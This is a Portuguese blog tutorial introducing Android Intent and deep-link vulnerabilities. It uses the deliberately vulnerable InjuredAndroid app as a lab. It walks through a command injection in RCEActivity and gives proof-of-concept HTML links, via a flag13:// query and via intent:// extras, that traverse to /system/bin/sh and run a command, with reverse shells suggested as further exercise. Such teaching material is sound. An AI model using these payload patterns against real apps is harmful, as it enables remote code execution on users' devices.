 # Pequenas ligações, grandes vulnerabilidades: Uma breve introdução a deep links Android.

## AndroidManifest.xml

Esse artigo tem como objetivo introduzir as vulnerabilidades que ocorrem no Android por meio do abuso de Intents. Tentarei ser o mais introdutório possível e listarei todas as referências necessárias, caso algum conceito pareça muito avançado. Será utilizado o aplicativo [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) como exemplo de *apk* vulnerável. 541v3 pros companheiros da [@duphouse](https://www.instagram.com/duphouse/), sem eles esse texto não seria possível.

Recomendo a [série de vídeos](https://www.youtube.com/watch?v=4eso_7RyZ58) do Maycon Vitali sobre Android no geral, assim como [a minha talk](https://www.youtube.com/watch?v=WFUEbMFx2EQ) na DupCon com vulnerabilidades reais. Existe também o [@thatmobileproject](https://www.instagram.com/thatmobileproject/) para posts sobre segurança em mobile.

## intent://

Os [Intents](https://developer.android.com/guide/components/intents-filters) funcionam como a principal forma dos aplicativos se comunicarem internamente entre si. Por exemplo, se um aplicativo quer abrir o [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) ele pode iniciar-lo por meio de um Intent utilizando a [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) `flag13://rce`.

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
startActivity(intent);
```

Além de aceitar todos os elementos de uma [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) ( scheme, host, path, query, fragment ), um Intent também pode levar dados [fortemente tipados](https://pt.wikipedia.org/wiki/Linguagem_tipada) por meio dos [Intent Extras](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Bundle)). Na prática, *queries* e *extras* são as formas mais comuns de passar dados entre os aplicativos, eles serão discutidos com exemplos mais adiante.


## <intent-filter>

Como o Android sabe qual aplicativo se refere `flag13://rce`? O InjuredAndroid define um [Intent Filter](https://developer.android.com/guide/components/intents-filters#Resolution) que diz quais tipos de Intent o Sistema Operacional deve enviar para ele. O Intent Filter é definido no [AndroidManifest.xml](https://developer.android.com/guide/topics/manifest/manifest-intro).

Vamos analizar a definição do Intent Filter relacionado a `flag13://rce` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/AndroidManifest.xml

```xml
<activity
	android:name=".RCEActivity"
	android:label="@string/title_activity_rce"
	android:theme="@style/AppTheme.NoActionBar">
	<intent-filter android:label="filter_view_flag11">
		<action android:name="android.intent.action.VIEW" />
		<category android:name="android.intent.category.DEFAULT" />
		<category android:name="android.intent.category.BROWSABLE" />
		<!-- Accepts URIs that begin with "flag13://” -->
        <data
			android:host="rce"
			android:scheme="flag13" />
	</intent-filter>
</activity>
```

O atributo `name` define qual [Activity](https://developer.android.com/reference/android/app/Activity) será inicializada, como ele começa com ponto, o nome é resolvido para `package`+`.RCEActivity` = `b3nac.injuredandroid.RCEActivity`. Dentro do `<intent-filter>`, o `action` se refere ao [tipo de ação](https://developer.android.com/reference/android/content/Intent#intent-structure) que será executada, existem uma miríade de tipos de ações que são definidas na classe Intent, porém, na maioria das vezes é utilizado o `action` padrão `android.intent.action.VIEW`.

`category` são propriedades extras que definem como o Intent vai se comportar. `android.intent.category.DEFAULT` define que essa Activity pode ser inicializada mesmo se o Intent não tiver nenhum `category`. `android.intent.category.BROWSABLE` dita que a Activity pode ser inicializada pelo browser, isso é super importante pois transforma qualquer ataque em remoto. Digamos que um usuário entre em um site malicioso, esse site consegue inicializar um Intent que abre o App apenas se o Intent Filter tiver a propriedade `BROWSABLE`.

A *tag* [`data`](https://developer.android.com/guide/topics/manifest/data-element) especifica quais URLs vão corresponder com esse Intent Filter, no nosso caso, o `scheme` tem que ser `flag13` e o `host` igual a `rce`, ficando `flag13://rce`. Todas as partes da URI podem ser definidas, como *path*, *port*, etc. 


## flag13://rce

Agora que entedemos como Intents e Intents Filters funcionam, vamos procurar alguma vulnerabilidade no `flag13://rce` (O "rce" ficou meio óbvio né).

O código-fonte da Activity `b3nac.injuredandroid.RCEActivity` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt

```kotlin
49 if (intent != null && intent.data != null) {
50     copyAssets()
51     val data = intent.data
52     try {
53         val intentParam = data!!.getQueryParameter("binary")
54         val binaryParam = data.getQueryParameter("param")
55         val combinedParam = data.getQueryParameter("combined")
56         if (combinedParam != null) {
57             childRef.addListenerForSingleValueEvent(object : ValueEventListener {
58                 override fun onDataChange(dataSnapshot: DataSnapshot) {
59                     val value = dataSnapshot.value as String?
60                     if (combinedParam == value) {
61                         FlagsOverview.flagThirteenButtonColor = true
62                         val secure = SecureSharedPrefs()
63                         secure.editBoolean(applicationContext, "flagThirteenButtonColor", true)
64                         correctFlag()
65                     } else {
66                         Toast.makeText(this@RCEActivity, "Try again! :D",
67                                 Toast.LENGTH_SHORT).show()
68                     }
69                 }
70
71                 override fun onCancelled(databaseError: DatabaseError) {
72                     Log.e(TAG, "onCancelled", databaseError.toException())
73                 }
74             })
75         }
```

A Activity é inicializada na função `onCreate` e é lá que o Intent será devidamente tratado. Na linha [49](https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt#L49) o aplicativo checa se `intent` é nulo, se não for ele irá pegar algumas *queries* `binary`, `param` e `combined`. Se `combined` for nulo ele não entrará no `if` da linha 56 e irá para o seguinte `else`:

```kotlin
76 else {
77
78     val process = Runtime.getRuntime().exec(filesDir.parent + "/files/" + intentParam + " " + binaryParam)
79     val bufferedReader = BufferedReader(
80             InputStreamReader(process.inputStream))
81     val log = StringBuilder()
82     bufferedReader.forEachLine {
83         log.append(it)
84     }
85     process.waitFor()
86     val tv = findViewById<TextView>(R.id.RCEView)
87     tv.text = log.toString()
88 }
```

Na linha 78 é passado para a função `Runtime.getRuntime().exec()` as variáveis `intentParam` e `binaryParam`, essa função executa comandos no sistema, logo temos um [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) através do Intent. Vamos tentar explora-lo!

Normalmente, num Command Injection tentaríamos passar algum carácter para executar outro commando, como `&`/`|`/`;`, porém se tentarmos desse jeito o Android irá dar um erro na primeira parte do comando, o `filesDir.parent + "/files/"`, pois não encontrará o arquivo, ou dará erro de permissão e não executará o resto do nosso *payload*. Para resolvermos esse problema podemos voltar os diretórios com `../` até chegarmos no diretório *root*, a partir dai podemos executar o `/system/bin/sh` e executar qualquer comando que quisermos.

Nossa PoC terá os seguintes passos :

1. Alvo clica num link malicioso
2. Browser abre um Intent para `b3nac.injuredandroid.RCEActivity`
3. A Activity `RCEActivity` executa o comando do atacante

`index.html`
```html
<a href="flag13://rce?binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27&param=1">pwn me</a>
```

*Deixo de tarefa de casa exfiltrar o resultado do comando, ou abrir uma reverse shell no Android*

## S.Intent_Extras

Agora digamos que ao invés de receber as variáveis via *query*, o App as recebesse via Intent Extras, como fazer? Para criar um Intent com Extras apenas usamos a função [putExtra](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)).

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
intent.putExtra("binary","../../../../../system/bin/sh -c 'id'");
intent.putExtra("param","1");
startActivity(intent);
```

Ok, com isso conseguimos passar Intents Extras por meio de outro App, mas e pelo Browser? Nós podemos utilizar o scheme [`intent://`](https://developer.chrome.com/docs/multidevice/android/intents/) para isso! O Intent de cima fica assim :

```html
<a href="intent://rce/#Intent;scheme=flag13;S.binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27;S.param=1;end">pwn me</a>
```

Primeiro vem o scheme `intent://`, depois o host `rce` e logo após a string `#Intent`, que é obrigatória. A partir dai todas as variáveis são delimitadas por `;`. Passamos o `scheme=flag13` e definimos os Extras, o nome do Extra é precedido do tipo dele, como o Extra `binary` é do tipo String ele é definido com `S.binary`. Os Extras podem ter vários tipos, como a documentação do scheme `intent://` é escarso, o melhor jeito é ler o código fonte do Android que faz o parse dele:  https://cs.android.com/android/platform/superproject/+/master:frameworks/base/core/java/android/content/Intent.java;l=7115;drc=master

```java
if      (uri.startsWith("S.", i)) b.putString(key, value);
else if (uri.startsWith("B.", i)) b.putBoolean(key, Boolean.parseBoolean(value));
else if (uri.startsWith("b.", i)) b.putByte(key, Byte.parseByte(value));
else if (uri.startsWith("c.", i)) b.putChar(key, value.charAt(0));
else if (uri.startsWith("d.", i)) b.putDouble(key, Double.parseDouble(value));
else if (uri.startsWith("f.", i)) b.putFloat(key, Float.parseFloat(value));
else if (uri.startsWith("i.", i)) b.putInt(key, Integer.parseInt(value));
else if (uri.startsWith("l.", i)) b.putLong(key, Long.parseLong(value));
else if (uri.startsWith("s.", i)) b.putShort(key, Short.parseShort(value));
else throw new URISyntaxException(uri, "unknown EXTRA type", i);
```


Por fim só colocar um `end` (:


## ;end

Podem existir vários tipos de vulnerabilidades oriundas dos Intents, RCE/SQLi/XSS até Buffer Overflow, vai depender só da criatividade do desenvolvedor. Para estudar esse assunto mais a fundo, recomendo a leitura do blog do [@bagipro_](https://twitter.com/_bagipro) https://blog.oversecured.com/ e dos reports públicos de Bug Bounty https://github.com/B3nac/Android-Reports-and-Resources . Além do [InjuredAndroid]((https://github.com/B3nac/InjuredAndroid)) também podem brincar com o [Ovaa](https://github.com/oversecured/ovaa). |-|4ck th3 |>l4n3t  
